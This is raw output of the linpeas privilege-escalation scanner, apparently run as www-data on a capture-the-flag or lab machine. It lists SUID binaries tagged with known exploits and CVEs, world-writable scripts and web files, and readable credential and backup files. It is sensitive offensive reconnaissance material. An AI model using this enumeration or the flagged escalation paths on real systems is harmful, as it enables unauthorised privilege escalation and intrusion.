-rw-r--r-- 1 root root 2256 Feb 26  2016 /usr/share/popularity-contest/debian-popcon.gpg
-rw-r--r-- 1 root root 12335 Feb 27  2019 /var/lib/apt/keyrings/ubuntu-archive-keyring.gpg

drwx------ 3 itguy itguy 4096 Nov 30  2019 /home/itguy/.gnupg

╔══════════╣ Kubernetes information
                                                                                                                                                     
╔══════════╣ Analyzing Postfix Files (limit 70)
-rw-r--r-- 1 root root 694 May 18  2016 /usr/share/bash-completion/completions/postfix                                                               


╔══════════╣ Analyzing FTP Files (limit 70)
                                                                                                                                                     

-rw-r--r-- 1 root root 69 Oct 24  2019 /etc/php/7.0/mods-available/ftp.ini
-rw-r--r-- 1 root root 69 Oct 24  2019 /usr/share/php7.0-common/common/ftp.ini


╔══════════╣ Analyzing Windows Files Files (limit 70)
                                                                                                                                                     


lrwxrwxrwx 1 root root 20 Nov 29  2019 /etc/alternatives/my.cnf -> /etc/mysql/mysql.cnf
lrwxrwxrwx 1 root root 24 Nov 29  2019 /etc/mysql/my.cnf -> /etc/alternatives/my.cnf
-rw-r--r-- 1 root root 81 Nov 29  2019 /var/lib/dpkg/alternatives/my.cnf


-rw-r--r-- 1 root root 553164 Feb 18  2016 /usr/share/gutenprint/5.2/xml/printers.xml


╔══════════╣ Analyzing Other Interesting Files Files (limit 70)
-rw-r--r-- 1 root root 3771 Sep  1  2015 /etc/skel/.bashrc                                                                                           
-rw-r--r-- 1 itguy itguy 3771 Nov 29  2019 /home/itguy/.bashrc


-rw-r--r-- 1 root root 655 May 16  2017 /etc/skel/.profile
-rw-r--r-- 1 itguy itguy 655 Nov 29  2019 /home/itguy/.profile


-rw-r--r-- 1 itguy itguy 0 Nov 29  2019 /home/itguy/.sudo_as_admin_successful


                                         ╔═══════════════════╗
═════════════════════════════════════════╣ Interesting Files ╠═════════════════════════════════════════                                              
                                         ╚═══════════════════╝                                                                                       
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                          
-rwsr-xr-- 1 root dip 387K Jun 12  2018 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)                                                          
-rwsr-xr-x 1 root root 14K Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root messagebus 46K Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 5.4K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-sr-x 1 root root 111K Aug 20  2019 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 502K Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 9.6K Oct 25  2018 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 14K Mar 18  2017 /usr/lib/i386-linux-gnu/oxide-qt/chrome-sandbox
-rwsr-xr-x 1 root root 52K Mar 26  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                                                                                    
-rwsr-xr-x 1 root root 39K Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 77K Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 34K Mar 26  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 18K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 157K Oct 11  2019 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 73K Mar 26  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 26K Oct 10  2019 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 43K May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 39K May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 34K Oct 10  2019 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 38K Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 30K Jul 12  2016 /bin/fusermount

╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                          
-rwxr-sr-x 1 root shadow 38K Apr  9  2018 /sbin/pam_extrausers_chkpwd                                                                                
-rwxr-sr-x 1 root shadow 38K Apr  9  2018 /sbin/unix_chkpwd
-rwsr-sr-x 1 root root 111K Aug 20  2019 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwxr-sr-x 1 root mail 14K May 28  2019 /usr/lib/evolution/camel-lock-helper-1.2
-rwsr-sr-x 1 root root 9.6K Oct 25  2018 /usr/lib/xorg/Xorg.wrap
-rwxr-sr-x 1 root utmp 5.4K Mar 11  2016 /usr/lib/i386-linux-gnu/utempter/utempter
-rwxr-sr-x 1 root mail 9.6K Oct 21  2019 /usr/bin/mlock
-rwxr-sr-x 1 root shadow 22K Mar 26  2019 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 422K Mar  4  2019 /usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 26K Oct 10  2019 /usr/bin/wall
-rwxr-sr-x 1 root mlocate 34K Nov 18  2014 /usr/bin/mlocate
-rwxr-sr-x 1 root tty 9.6K Mar  1  2016 /usr/bin/bsd-write
-rwxr-sr-x 1 root shadow 60K Mar 26  2019 /usr/bin/chage
-rwxr-sr-x 1 root crontab 39K Apr  6  2016 /usr/bin/crontab

╔══════════╣ Checking misconfigurations of ld.so
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#ld-so                                                                                  
/etc/ld.so.conf                                                                                                                                      
include /etc/ld.so.conf.d/*.conf

/etc/ld.so.conf.d
  /etc/ld.so.conf.d/fakeroot-i386-linux-gnu.conf
/usr/lib/i386-linux-gnu/libfakeroot
  /etc/ld.so.conf.d/i386-linux-gnu.conf
/lib/i386-linux-gnu
/usr/lib/i386-linux-gnu
/lib/i686-linux-gnu
/usr/lib/i686-linux-gnu
  /etc/ld.so.conf.d/i386-linux-gnu_EGL.conf
/usr/lib/i386-linux-gnu/mesa-egl
  /etc/ld.so.conf.d/i386-linux-gnu_GL.conf
/usr/lib/i386-linux-gnu/mesa
  /etc/ld.so.conf.d/libc.conf
/usr/local/lib

╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                                                           
Current capabilities:                                                                                                                                
Current: =
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Shell capabilities:
0x0000000000000000=
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Files with capabilities (limited to 50):

╔══════════╣ Environment
/usr/lib/i386-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/arping = cap_net_raw+ep
/usr/bin/mtr = cap_net_raw+ep

╔══════════╣ Files with ACLs (limited to 50)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#acls                                                                                   
Cfiles with acls in searched folders Not Found                                                                                                       
                                                                                                                                                     
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path                                                                
/usr/sbin/alsa-info.sh                                                                                                                               
/usr/bin/amuFormat.sh
/usr/bin/gettext.sh

╔══════════╣ Unexpected in root
/initrd.img                                                                                                                                          
/initrd.img.old
/vmlinuz.old
/vmlinuz

╔══════════╣ Files (scripts) in /etc/profile.d/
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#profiles-files                                                                         
total 36                                                                                                                                             
drwxr-xr-x   2 root root  4096 Nov 29  2019 .
drwxr-xr-x 135 root root 12288 Mar 23 14:03 ..
-rw-r--r--   1 root root    40 Feb 17  2017 appmenu-qt5.sh
-rw-r--r--   1 root root   825 Jan 30  2019 apps-bin-path.sh
-rw-r--r--   1 root root   663 May 18  2016 bash_completion.sh
-rw-r--r--   1 root root  1003 Dec 29  2015 cedilla-portuguese.sh
-rw-r--r--   1 root root  1941 Mar 16  2016 vte-2.91.sh

╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d                                                           
                                                                                                                                                     
═╣ Hashes inside passwd file? ........... No
═╣ Writable passwd file? ................ No                                                                                                         
═╣ Credentials in fstab/mtab? ........... No                                                                                                         
═╣ Can I read shadow files? ............. No                                                                                                         
═╣ Can I read shadow plists? ............ No                                                                                                         
═╣ Can I write shadow plists? ........... No                                                                                                         
═╣ Can I read opasswd file? ............. No                                                                                                         
═╣ Can I write in network-scripts? ...... No                                                                                                         
═╣ Can I read root folder? .............. No                                                                                                         
                                                                                                                                                     
╔══════════╣ Searching root files in home dirs (limit 30)
/home/                                                                                                                                               
/home/itguy/backup.pl
/home/itguy/.bash_history
/root/

╔══════════╣ Searching folders owned by me containing others files on it (limit 100)
/run/php                                                                                                                                             

╔══════════╣ Readable files belonging to root and readable by me but not world readable
                                                                                                                                                     
╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/var/log/kern.log                                                                                                                                    
/var/log/syslog
/var/log/auth.log

╔══════════╣ Writable log files (logrotten) (limit 100)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation                                                                 
                                                                                                                                                     
╔══════════╣ Files inside /home/www-data (limit 20)
                                                                                                                                                     
╔══════════╣ Files inside others home (limit 20)
/home/itguy/.xsession-errors.old                                                                                                                     
/home/itguy/.dmrc
/home/itguy/.bash_logout
/home/itguy/user.txt
/home/itguy/examples.desktop
/home/itguy/mysql_login.txt
/home/itguy/.ICEauthority
/home/itguy/.sudo_as_admin_successful
/home/itguy/.vboxclient-display.pid
/home/itguy/.vboxclient-seamless.pid
/home/itguy/backup.pl
/home/itguy/.xsession-errors
/home/itguy/.profile
/home/itguy/.vboxclient-clipboard.pid
/home/itguy/.mysql_history
/home/itguy/.vboxclient-draganddrop.pid
/home/itguy/.bashrc
/home/itguy/.Xauthority

╔══════════╣ Searching installed mail applications
                                                                                                                                                     
╔══════════╣ Mails (limit 50)
                                                                                                                                                     
╔══════════╣ Backup folders
                                                                                                                                                     
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 17970 Nov 30  2019 /var/log/Xorg.0.log.old                                                                                    
-rwxrwxrwx 1 www-data www-data 2893 Sep 19  2016 /var/www/html/content/as/lib/pgsql_backup.php
-rwxrwxrwx 1 www-data www-data 1313 Sep 19  2016 /var/www/html/content/as/lib/mysql_backup.php
-rwxrwxrwx 1 www-data www-data 1522 Sep 19  2016 /var/www/html/content/as/lib/db_backup.php
-rwxrwxrwx 1 www-data www-data 1406 Sep 19  2016 /var/www/html/content/as/lib/sqlite_backup.php
-rw-r--r-- 1 root root 128 Feb 27  2019 /var/lib/sgml-base/supercatalog.old
-rw-r--r-- 1 root root 14947 Nov 29  2019 /usr/share/info/dir.old
-rwxr-xr-x 1 root root 1513 Oct 20  2013 /usr/share/doc/libipc-system-simple-perl/examples/rsync-backup.pl
-rw-r--r-- 1 root root 298768 Dec 29  2015 /usr/share/doc/manpages/Changes.old.gz
-rw-r--r-- 1 root root 7867 May  6  2015 /usr/share/doc/telnet/README.telnet.old.gz
-rw-r--r-- 1 root root 449 Sep 10  2015 /usr/share/app-install/desktop/luckybackup:luckybackup.desktop
-rw-r--r-- 1 root root 502 Sep 10  2015 /usr/share/app-install/desktop/slbackup-php:slbackup-php.desktop
-rw-r--r-- 1 root root 396 Sep 10  2015 /usr/share/app-install/desktop/barrybackup-gui:barrybackup.desktop
-rw-r--r-- 1 root root 446 Sep 10  2015 /usr/share/app-install/desktop/kbackup:kde4__kbackup.desktop
-rw-r--r-- 1 root root 755 Apr  7  2016 /usr/share/help-langpack/en_AU/deja-dup/backup-first.page
-rw-r--r-- 1 root root 974 Apr  7  2016 /usr/share/help-langpack/en_AU/deja-dup/backup-auto.page
-rw-r--r-- 1 root root 2392 Jun 21  2016 /usr/share/help-langpack/en_AU/ubuntu-help/backup-how.page
-rw-r--r-- 1 root root 1422 Jun 21  2016 /usr/share/help-langpack/en_AU/ubuntu-help/backup-restore.page
-rw-r--r-- 1 root root 2500 Jun 21  2016 /usr/share/help-langpack/en_AU/ubuntu-help/backup-what.page
-rw-r--r-- 1 root root 2018 Jun 21  2016 /usr/share/help-langpack/en_AU/ubuntu-help/backup-frequency.page
-rw-r--r-- 1 root root 1291 Jun 21  2016 /usr/share/help-langpack/en_AU/ubuntu-help/backup-why.page
-rw-r--r-- 1 root root 3073 Jun 21  2016 /usr/share/help-langpack/en_AU/ubuntu-help/backup-thinkabout.page
-rw-r--r-- 1 root root 1720 Jun 21  2016 /usr/share/help-langpack/en_AU/ubuntu-help/backup-check.page
-rw-r--r-- 1 root root 2295 Jun 21  2016 /usr/share/help-langpack/en_AU/ubuntu-help/backup-where.page
-rw-r--r-- 1 root root 755 Apr  7  2016 /usr/share/help-langpack/en_GB/deja-dup/backup-first.page
-rw-r--r-- 1 root root 974 Apr  7  2016 /usr/share/help-langpack/en_GB/deja-dup/backup-auto.page
-rw-r--r-- 1 root root 2371 Jun 21  2016 /usr/share/help-langpack/en_GB/ubuntu-help/backup-how.page
-rw-r--r-- 1 root root 1420 Jun 21  2016 /usr/share/help-langpack/en_GB/ubuntu-help/backup-restore.page
-rw-r--r-- 1 root root 2503 Jun 21  2016 /usr/share/help-langpack/en_GB/ubuntu-help/backup-what.page
-rw-r--r-- 1 root root 2020 Jun 21  2016 /usr/share/help-langpack/en_GB/ubuntu-help/backup-frequency.page
-rw-r--r-- 1 root root 1291 Jun 21  2016 /usr/share/help-langpack/en_GB/ubuntu-help/backup-why.page
-rw-r--r-- 1 root root 3067 Jun 21  2016 /usr/share/help-langpack/en_GB/ubuntu-help/backup-thinkabout.page
-rw-r--r-- 1 root root 1720 Jun 21  2016 /usr/share/help-langpack/en_GB/ubuntu-help/backup-check.page
-rw-r--r-- 1 root root 2289 Jun 21  2016 /usr/share/help-langpack/en_GB/ubuntu-help/backup-where.page
-rw-r--r-- 1 root root 2543 Jun 24  2016 /usr/share/help-langpack/en_GB/evolution/backup-restore.page
-rw-r--r-- 1 root root 2418 Jun 21  2016 /usr/share/help-langpack/en_CA/ubuntu-help/backup-how.page
-rw-r--r-- 1 root root 1427 Jun 21  2016 /usr/share/help-langpack/en_CA/ubuntu-help/backup-restore.page
-rw-r--r-- 1 root root 2530 Jun 21  2016 /usr/share/help-langpack/en_CA/ubuntu-help/backup-what.page
-rw-r--r-- 1 root root 2034 Jun 21  2016 /usr/share/help-langpack/en_CA/ubuntu-help/backup-frequency.page
-rw-r--r-- 1 root root 1298 Jun 21  2016 /usr/share/help-langpack/en_CA/ubuntu-help/backup-why.page
-rw-r--r-- 1 root root 3094 Jun 21  2016 /usr/share/help-langpack/en_CA/ubuntu-help/backup-thinkabout.page
-rw-r--r-- 1 root root 1732 Jun 21  2016 /usr/share/help-langpack/en_CA/ubuntu-help/backup-check.page
-rw-r--r-- 1 root root 2308 Jun 21  2016 /usr/share/help-langpack/en_CA/ubuntu-help/backup-where.page
-rw-r--r-- 1 root root 76 Mar 31  2017 /usr/share/lightdm/lightdm.conf.d/50-disable-log-backup.conf
-rw-r--r-- 1 root root 2356 Oct 24  2015 /usr/share/help/C/gnome-help/backup-how.page
-rw-r--r-- 1 root root 1320 Oct 24  2015 /usr/share/help/C/gnome-help/backup-restore.page
-rw-r--r-- 1 root root 2505 Oct 24  2015 /usr/share/help/C/gnome-help/backup-what.page
-rw-r--r-- 1 root root 1999 Oct 24  2015 /usr/share/help/C/gnome-help/backup-frequency.page
-rw-r--r-- 1 root root 1262 Oct 24  2015 /usr/share/help/C/gnome-help/backup-why.page
-rw-r--r-- 1 root root 3363 Oct 24  2015 /usr/share/help/C/gnome-help/backup-thinkabout.page
-rw-r--r-- 1 root root 1813 Oct 24  2015 /usr/share/help/C/gnome-help/backup-check.page
-rw-r--r-- 1 root root 2264 Oct 24  2015 /usr/share/help/C/gnome-help/backup-where.page
-rw-r--r-- 1 root root 750 Oct 16  2013 /usr/share/help/C/deja-dup/backup-first.page
-rw-r--r-- 1 root root 969 Oct 10  2013 /usr/share/help/C/deja-dup/backup-auto.page
-rw-r--r-- 1 root root 2374 Jun 21  2016 /usr/share/help/C/ubuntu-help/backup-how.page
-rw-r--r-- 1 root root 1383 Jun 21  2016 /usr/share/help/C/ubuntu-help/backup-restore.page
-rw-r--r-- 1 root root 2498 Jun 21  2016 /usr/share/help/C/ubuntu-help/backup-what.page
-rw-r--r-- 1 root root 1989 Jun 21  2016 /usr/share/help/C/ubuntu-help/backup-frequency.page
-rw-r--r-- 1 root root 1254 Jun 21  2016 /usr/share/help/C/ubuntu-help/backup-why.page
-rw-r--r-- 1 root root 3050 Jun 21  2016 /usr/share/help/C/ubuntu-help/backup-thinkabout.page
-rw-r--r-- 1 root root 1687 Jun 21  2016 /usr/share/help/C/ubuntu-help/backup-check.page
-rw-r--r-- 1 root root 2266 Jun 21  2016 /usr/share/help/C/ubuntu-help/backup-where.page
-rw-r--r-- 1 root root 1581 Oct 28  2015 /usr/share/help/C/seahorse/misc-key-backup.page
-rw-r--r-- 1 root root 0 Jan 29  2019 /usr/src/linux-headers-4.15.0-45-generic/include/config/wm831x/backup.h
-rw-r--r-- 1 root root 0 Jan 29  2019 /usr/src/linux-headers-4.15.0-45-generic/include/config/net/team/mode/activebackup.h
-rw-r--r-- 1 root root 218639 Jan 29  2019 /usr/src/linux-headers-4.15.0-45-generic/.config.old
-rw-r--r-- 1 root root 0 Nov 12  2019 /usr/src/linux-headers-4.15.0-70-generic/include/config/wm831x/backup.h
-rw-r--r-- 1 root root 0 Nov 12  2019 /usr/src/linux-headers-4.15.0-70-generic/include/config/net/team/mode/activebackup.h
-rw-r--r-- 1 root root 219095 Nov 12  2019 /usr/src/linux-headers-4.15.0-70-generic/.config.old
-rw-r--r-- 1 root root 610 Feb 27  2019 /etc/xml/catalog.old
-rw-r--r-- 1 root root 673 Feb 27  2019 /etc/xml/xml-core.xml.old
-rw-r--r-- 1 root root 5898 Nov 12  2019 /lib/modules/4.15.0-70-generic/kernel/drivers/power/supply/wm831x_backup.ko
-rw-r--r-- 1 root root 5618 Nov 12  2019 /lib/modules/4.15.0-70-generic/kernel/drivers/net/team/team_mode_activebackup.ko
-rw-r--r-- 1 root root 5898 Jan 29  2019 /lib/modules/4.15.0-45-generic/kernel/drivers/power/supply/wm831x_backup.ko
-rw-r--r-- 1 root root 5618 Jan 29  2019 /lib/modules/4.15.0-45-generic/kernel/drivers/net/team/team_mode_activebackup.ko
-rw-r--r-x 1 root root 47 Nov 29  2019 /home/itguy/backup.pl

╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found: /var/lib/colord/mapping.db: SQLite 3.x database                                                                                               
Found: /var/lib/colord/storage.db: SQLite 3.x database
Found: /var/lib/mlocate/mlocate.db: regular file, no read permission
Found: /var/lib/nssdb/cert9.db: SQLite 3.x database
Found: /var/lib/nssdb/key4.db: SQLite 3.x database
Found: /var/lib/nssdb/secmod.db: Berkeley DB 1.85 (Hash, version 2, native byte-order)
Found: /var/www/html/content/inc/cache/cache.db: Berkeley DB (Btree, version 9, native byte-order)

 -> Extracting tables from /var/lib/colord/mapping.db (limit 20)
                                                                                                                                                     

 -> Extracting tables from /var/lib/colord/storage.db (limit 20)
                                                                                                                                                     


 -> Extracting tables from /var/lib/nssdb/cert9.db (limit 20)
                                                                                                                                                     
 -> Extracting tables from /var/lib/nssdb/key4.db (limit 20)
                                                                                                                                                     


╔══════════╣ Web files?(output limit)
/var/www/:                                                                                                                                           
total 12K
drwxr-xr-x  3 root root 4.0K Nov 29  2019 .
drwxr-xr-x 15 root root 4.0K Nov 29  2019 ..
drwxr-xr-x  3 root root 4.0K Nov 29  2019 html

/var/www/html:
total 24K
drwxr-xr-x 3 root     root     4.0K Nov 29  2019 .
drwxr-xr-x 3 root     root     4.0K Nov 29  2019 ..

╔══════════╣ All hidden files (not in /sys/ or the ones listed in the previous check) (limit 70)
-rw-r--r-- 1 root root 0 Jan 11  2019 /usr/share/php/.lock                                                                                           
-rw-r--r-- 1 root root 7080 Jan 11  2019 /usr/share/php/.filemap
-rw-r--r-- 1 root root 0 Mar 23 14:01 /run/network/.ifstate.lock
-rw------- 1 root root 0 Feb 27  2019 /etc/.pwd.lock
-rw-r--r-- 1 root root 220 Sep  1  2015 /etc/skel/.bash_logout
-rw-r--r-- 1 root root 1531 Nov 29  2019 /etc/apparmor.d/cache/.features
-rw------- 1 itguy itguy 82 Nov 29  2019 /home/itguy/.xsession-errors.old
-rw-r--r-- 1 itguy itguy 25 Nov 29  2019 /home/itguy/.dmrc
-rw-r--r-- 1 itguy itguy 220 Nov 29  2019 /home/itguy/.bash_logout
-rw------- 1 itguy itguy 1630 Nov 30  2019 /home/itguy/.ICEauthority
-rw-r----- 1 itguy itguy 5 Nov 30  2019 /home/itguy/.vboxclient-display.pid
-rw-r----- 1 itguy itguy 5 Nov 30  2019 /home/itguy/.vboxclient-seamless.pid
-rw------- 1 itguy itguy 82 Nov 30  2019 /home/itguy/.xsession-errors
-rw-r----- 1 itguy itguy 5 Nov 30  2019 /home/itguy/.vboxclient-clipboard.pid
-rw-r----- 1 itguy itguy 5 Nov 30  2019 /home/itguy/.vboxclient-draganddrop.pid
-rw------- 1 itguy itguy 53 Nov 30  2019 /home/itguy/.Xauthority
-r--r--r-- 1 root root 11 Mar 23 14:03 /tmp/.X0-lock

╔══════════╣ Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)
-rwxrwxrwx 1 www-data www-data 762915 Mar 23 14:25 /tmp/linpeas.sh                                                                                   
-r--r--r-- 1 root root 11 Mar 23 14:03 /tmp/.X0-lock
-rw-r--r-- 1 root root 4043 Nov 29  2019 /var/backups/alternatives.tar.1.gz
-rw-r--r-- 1 root root 345 Nov 29  2019 /var/backups/dpkg.diversions.1.gz
-rw-r--r-- 1 root root 1833087 Nov 29  2019 /var/backups/dpkg.status.0
-rw-r--r-- 1 root root 195 Nov 29  2019 /var/backups/dpkg.statoverride.1.gz
-rw-r--r-- 1 root root 498935 Nov 29  2019 /var/backups/dpkg.status.1.gz
-rw-r--r-- 1 root root 6976 Nov 29  2019 /var/backups/apt.extended_states.0
-rw-r--r-- 1 root root 265 Nov 29  2019 /var/backups/dpkg.statoverride.0
-rw-r--r-- 1 root root 1044 Nov 29  2019 /var/backups/dpkg.diversions.0
-rw-r--r-- 1 root root 71680 Mar 23 14:06 /var/backups/alternatives.tar.0

╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                                         
/dev/mqueue                                                                                                                                          
/dev/shm
/etc/copy.sh
/run/lock
/run/lock/apache2
/run/php
/tmp
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/.X11-unix
/tmp/.XIM-unix
/tmp/.font-unix
#)You_can_write_even_more_files_inside_last_directory

/var/cache/apache2/mod_cache_disk
/var/crash
/var/lib/php/sessions
/var/metrics
/var/tmp
/var/www/html/content
/var/www/html/content/_plugin
/var/www/html/content/_plugin/app
/var/www/html/content/_plugin/app/css
/var/www/html/content/_plugin/app/css/app.css
/var/www/html/content/_plugin/app/css/dashboard.css
/var/www/html/content/_plugin/app/deinstall.sql
/var/www/html/content/_plugin/app/deinstall_pgsql.sql
/var/www/html/content/_plugin/app/deinstall_sqlite.sql
/var/www/html/content/_plugin/app/home.php
/var/www/html/content/_plugin/app/inc
/var/www/html/content/_plugin/app/inc/database.php
/var/www/html/content/_plugin/app/inc/database_insert.php
/var/www/html/content/_plugin/app/inc/do_database.php
/var/www/html/content/_plugin/app/inc/do_form.php
/var/www/html/content/_plugin/app/inc/do_form_data.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/_plugin/app/index.php
/var/www/html/content/_plugin/app/install.sql
/var/www/html/content/_plugin/app/install_pgsql.sql
/var/www/html/content/_plugin/app/install_sqlite.sql
/var/www/html/content/_plugin/app/js
/var/www/html/content/_plugin/app/js/app.js
/var/www/html/content/_plugin/app/lang
/var/www/html/content/_plugin/app/lang/big5.php
/var/www/html/content/_plugin/app/lang/en-us.php
/var/www/html/content/_plugin/app/lang/zh-cn.php
/var/www/html/content/_plugin/app/pluginInstaller.php
/var/www/html/content/_plugin/app/plugin_config.php
/var/www/html/content/_plugin/app/shareFunction.php
/var/www/html/content/_plugin/tinymce
/var/www/html/content/_plugin/tinymce/langs
/var/www/html/content/_plugin/tinymce/langs/readme.md
/var/www/html/content/_plugin/tinymce/langs/zh_CN.js
/var/www/html/content/_plugin/tinymce/langs/zh_TW.js
/var/www/html/content/_plugin/tinymce/license.txt
/var/www/html/content/_plugin/tinymce/plugins
/var/www/html/content/_plugin/tinymce/plugins/advlist
/var/www/html/content/_plugin/tinymce/plugins/advlist/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/anchor
/var/www/html/content/_plugin/tinymce/plugins/anchor/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/autolink
/var/www/html/content/_plugin/tinymce/plugins/autolink/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/autoresize
/var/www/html/content/_plugin/tinymce/plugins/autoresize/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/autosave
/var/www/html/content/_plugin/tinymce/plugins/autosave/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/charmap
/var/www/html/content/_plugin/tinymce/plugins/charmap/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/contextmenu
/var/www/html/content/_plugin/tinymce/plugins/contextmenu/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/directionality
/var/www/html/content/_plugin/tinymce/plugins/directionality/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/fullpage
/var/www/html/content/_plugin/tinymce/plugins/fullpage/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/fullscreen
/var/www/html/content/_plugin/tinymce/plugins/fullscreen/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/hr
/var/www/html/content/_plugin/tinymce/plugins/hr/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/image
/var/www/html/content/_plugin/tinymce/plugins/image/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/insertdatetime
/var/www/html/content/_plugin/tinymce/plugins/insertdatetime/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/link
/var/www/html/content/_plugin/tinymce/plugins/link/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/lists
/var/www/html/content/_plugin/tinymce/plugins/lists/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/media
/var/www/html/content/_plugin/tinymce/plugins/media/moxieplayer.swf
/var/www/html/content/_plugin/tinymce/plugins/media/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/noneditable
/var/www/html/content/_plugin/tinymce/plugins/noneditable/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/pagebreak
/var/www/html/content/_plugin/tinymce/plugins/pagebreak/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/preview
/var/www/html/content/_plugin/tinymce/plugins/preview/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/searchreplace
/var/www/html/content/_plugin/tinymce/plugins/searchreplace/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/tabfocus
/var/www/html/content/_plugin/tinymce/plugins/tabfocus/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/table
/var/www/html/content/_plugin/tinymce/plugins/table/plugin.min.js
/var/www/html/content/_plugin/tinymce/plugins/textcolor
/var/www/html/content/_plugin/tinymce/plugins/textcolor/plugin.min.js
/var/www/html/content/_plugin/tinymce/skins
/var/www/html/content/_plugin/tinymce/skins/lightgray
/var/www/html/content/_plugin/tinymce/skins/lightgray/content.inline.min.css
/var/www/html/content/_plugin/tinymce/skins/lightgray/content.min.css
/var/www/html/content/_plugin/tinymce/skins/lightgray/fonts
/var/www/html/content/_plugin/tinymce/skins/lightgray/fonts/tinymce-small.eot
/var/www/html/content/_plugin/tinymce/skins/lightgray/fonts/tinymce-small.ttf
/var/www/html/content/_plugin/tinymce/skins/lightgray/fonts/tinymce-small.woff
/var/www/html/content/_plugin/tinymce/skins/lightgray/fonts/tinymce.eot
/var/www/html/content/_plugin/tinymce/skins/lightgray/fonts/tinymce.ttf
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/content/_plugin/tinymce/skins/lightgray/img
/var/www/html/content/_plugin/tinymce/skins/lightgray/skin.ie7.min.css
/var/www/html/content/_plugin/tinymce/skins/lightgray/skin.min.css
/var/www/html/content/_plugin/tinymce/themes
/var/www/html/content/_plugin/tinymce/themes/modern
/var/www/html/content/_plugin/tinymce/themes/modern/theme.min.js
/var/www/html/content/_plugin/tinymce/tinymce.min.js
/var/www/html/content/_themes
/var/www/html/content/_themes/default
/var/www/html/content/_themes/default/cat.php
